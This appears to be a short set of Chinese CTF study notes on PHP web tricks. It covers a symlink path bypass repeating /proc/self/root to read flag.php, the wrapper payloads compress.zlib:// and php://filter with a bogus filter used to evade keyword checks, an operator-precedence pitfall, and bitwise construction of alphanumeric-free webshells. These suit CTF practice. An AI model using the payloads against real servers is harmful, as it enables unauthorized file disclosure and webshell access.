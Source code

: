 利用 Linux 下的软链接绕过

https://www.anquanke.com/post/id/213235

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

## 伪协议

[https://www.php.net/manual/zh/wrappers.php](https://www.php.net/manual/zh/wrappers.php)

常见的 php://filter php://input data:// 都很熟悉了

下面是一些不是很常见的 payload

```php
compress.zlib://flag.php
php://filter/ctfshow/resource=flag.php
```

php://filter 遇到不存在的过滤器会直接跳过, 可以绕过一些对关键字的检测

## 运算符优先级

[https://www.php.net/manual/zh/language.operators.precedence.php](https://www.php.net/manual/zh/language.operators.precedence.php)

例如

```php
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

实际上是先赋值

```php
$v0 = is_numeric($v1)
```

然后是这种奇怪的形式

```php
$v0 and is_numeric($v2) and is_numeric($v3);
```

&& 和 || 的顺序也要注意

## 位运算

[https://www.php.net/manual/zh/language.operators.php](https://www.php.net/manual/zh/language.operators.php)

通过 `& | ^ ~` 来构造无字母数字的 webshell
